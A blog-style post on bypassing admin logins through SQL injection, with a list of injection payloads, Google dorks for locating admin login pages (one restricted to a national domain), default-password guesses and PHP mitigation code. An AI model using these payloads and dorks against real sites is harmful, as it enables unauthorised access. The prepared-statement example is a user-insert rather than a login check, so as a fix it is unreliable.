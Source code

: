 ```yaml
---
title: Mitigating Admin Login Bypass in Web Security
publishDate: '2024-07-02T08:06:27.420Z'
description: 'Understanding and Mitigating Admin Login Bypass in Web Security.'
tags: [sqli]
heroImage: {src: './image.png',color: '#d1edfe'}
language: 'en'
---
```

Before exploring the complexities of bypassing admin login mechanisms, it’s crucial to understand what “Admin Login Bypass” actually involves. This technique enables unauthorized access to the admin login page of a website, bypassing standard authentication procedures. This exposure can potentially allow malicious entities to access and modify admin pages, highlighting significant vulnerabilities.

## The Importance of Robust Admin Login Security

The significance of secure admin logins cannot be overstated. Websites with weak authentication systems are prime targets for hackers. It is imperative for website owners to strengthen their admin logins to prevent unauthorized access, thereby protecting sensitive data and maintaining site integrity.

## Connection to SQL Injection

Admin login bypass is closely associated with SQL Injection — a common security vulnerability that allows attackers to impersonate an admin through malformed SQL queries. For example, using a username and password combination like “admin” or “1=1” manipulates the SQL query, granting access without further exploitation.

## Commonly Used SQL Queries for Bypass

In the realm of unauthorized access, certain SQL queries are notoriously used to bypass admin logins. Some of these include:

* `admin' #`
* `admin' or '1' = '1`
* `admin' or '1' = '1' #`
* `admin 'or 1 = 1 or' '='`
* `'or 1 = 1 limit 1 -- -+`
* `' or '1' = '1`
* `' or 'x' = 'x`
* `' or 0 = 0 -`
* `'or 0 = 0 #`
* `' or 1 = 1 --`
* `'or' one '=' one`
* `'or 1 = 1 -- -'or'`

## Using DORKs and Payloads for Bypassing Admin Logins

To ethically test these vulnerabilities in controlled environments, here are some Google DORKs and payloads used to find and exploit weak login systems:

**DORKs:**

* `inurl:/admin/login.php site:il`
* `inurl:/admin/login.php "administrator"`
* `inurl:/cpanel/login.php`
* `inurl:/cpanel/admin.php`
* `inurl:/cpanel/`

**Payloads for Auth/Author Bypass:**

* `' or 1=1 limit 1 -- -+`
* `'="or'`
* `admin`
* `pass`
* `pass123`
* `1234`
* `administrator`
* `passwd`

## Mitigating the Bypass Vulnerability

To mitigate such vulnerabilities, enhancing script security in login systems is critical. A practical approach includes refining the PHP login script to employ more secure practices:

**Original Code:**

```php
$username = $_POST["username"];  
$password = $_POST["password"];
```

**Revised Code:**

```php
$username = mysqli_real_escape_string($conn, $_POST["username"]);  
$password = mysqli_real_escape_string($conn, $_POST["password"]);
```

Incorporating functions like `mysqli_real_escape_string` helps prevent SQL injection by escaping special characters in input strings, thus securing the login process against such exploits.

## Beyond Simple Escaping: Strengthening Security with Advanced Techniques

While `mysqli_real_escape_string` is beneficial, employing prepared statements offers a more robust defense against SQL Injection. Prepared statements handle all escaping automatically and can improve performance with repeated query executions.

**Example with Prepared Statements using MySQLi:**

```php
// Create database connection  
$conn = new mysqli($servername, $username, $password, $dbname);  
  
// Check connection  
if ($conn->connect_error) {  
    die("Connection failed: " . $conn->connect_error);  
}  
  
// Retrieve data from POST  
$username = $_POST["username"];  
$hashedPassword = password_hash($_POST["password"], PASSWORD_DEFAULT);  
  
// Prepare SQL statement  
$stmt = $conn->prepare("INSERT INTO users (username, password) VALUES (?, ?)");  
  
// Bind parameters to the statement  
$stmt->bind_param("ss", $username, $hashedPassword);  
  
// Execute statement  
$stmt->execute();  
  
// Close statement and connection  
$stmt->close();  
$conn->close();
```

This example demonstrates the security enhancements achieved by using prepared statements and hashing passwords, providing robust protection against SQL injection and securing user passwords effectively.

## Conclusion

In conclusion, the security of admin login systems is paramount. By understanding the methods used for bypasses and employing more secure coding practices, web administrators can significantly reduce vulnerabilities and enhance the security posture of their sites.

vulnerabilities and enhance the security posture of their sites.

* * *

**Thanks to**: Ketapang Cyber Team

